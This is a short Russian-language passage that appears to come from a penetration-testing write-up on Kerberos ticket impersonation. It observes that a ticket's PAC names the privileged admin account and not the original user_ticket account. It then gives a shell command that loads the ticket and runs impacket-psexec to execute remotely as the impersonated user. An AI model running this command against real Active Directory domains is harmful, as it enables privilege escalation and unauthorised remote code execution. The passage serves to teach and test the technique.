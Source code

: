 ![](../../../Attachments/sst_10.png)

Хорошо видно, что билет содержит в себе информацию о привилегированной УЗ admin, но не содержит никакой информации об изначальной УЗ user_ticket. Это говорит нам о том, что PAC, действительно, был подписан с помощью нужной УЗ.

Попробуем протестировать билет:

```shell
export KRB5CCNAME=ticket.ccache

impacket-psexec 'domain/impersonate-user@fqdn' -k -no-pass
```

